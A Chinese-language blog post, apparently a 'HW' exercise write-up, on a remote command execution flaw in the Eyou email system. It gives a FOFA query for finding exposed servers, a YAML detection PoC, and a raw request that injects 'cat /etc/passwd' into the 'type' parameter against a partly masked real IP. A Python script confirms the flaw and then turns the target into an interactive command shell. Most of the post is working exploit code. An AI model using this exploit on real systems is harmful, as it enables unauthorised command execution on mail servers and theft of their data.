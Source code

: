 ```yaml
---
title: 亿邮电子邮件系统RCE
tags:
  - 漏洞复现
categories:
  - 漏洞复现
copyright: true
abbrlink: e09aeac0
date: 2021-07-13 00:16:08
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)
<!--more-->

HW漏洞，亿邮电子邮件系统存在远程命令执行漏洞，可执行任意命令。

**验证**

 fofa `body="亿邮电子邮件系统"`

​	登录页面这样子：

![img](https://z3.ax1x.com/2021/07/13/WFbJYQ.png)

写个PoC验证一下

```yaml
name: poc-yaml-eyou-email-rce
rules:
  - method: POST
    path: "/webadm/?q=moni_detail.do&action=gragh"
    headers:
      Content-Type: application/x-www-form-urlencoded
    follow_redirects: false
    body: |
      type='|cat /etc/passwd||'
    expression: |
      response.status == 200 && response.body.bcontains(bytes(string("root")))
detail:
  author: Secde0(https://www.cnblogs.com/Secde0/)
  links:
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E4%BA%BF%E9%82%AE/%E4%BA%BF%E9%82%AE%E7%94%B5%E5%AD%90%E9%82%AE%E4%BB%B6%E7%B3%BB%E7%BB%9F%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

```

结果如下：

![img](https://z3.ax1x.com/2021/07/13/WFb1w8.png)

发送请求包：

```sqlite
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 36.x.x.x:88
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

`cat /etc/passwd`

![img](https://z3.ax1x.com/2021/07/13/WFbGFg.png)

当前网络连接情况：

![img](https://z3.ax1x.com/2021/07/13/WFb3TS.png)

PY脚本

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Eyou Email SYSTEM                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|cat /etc/passwd||'"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//webadm/?q=moni_detail.do&action=gragh \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|{}||'".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```

**Reference**

http://wiki.peiqi.tech/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E4%BA%BF%E9%82%AE/%E4%BA%BF%E9%82%AE%E7%94%B5%E5%AD%90%E9%82%AE%E4%BB%B6%E7%B3%BB%E7%BB%9F%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html

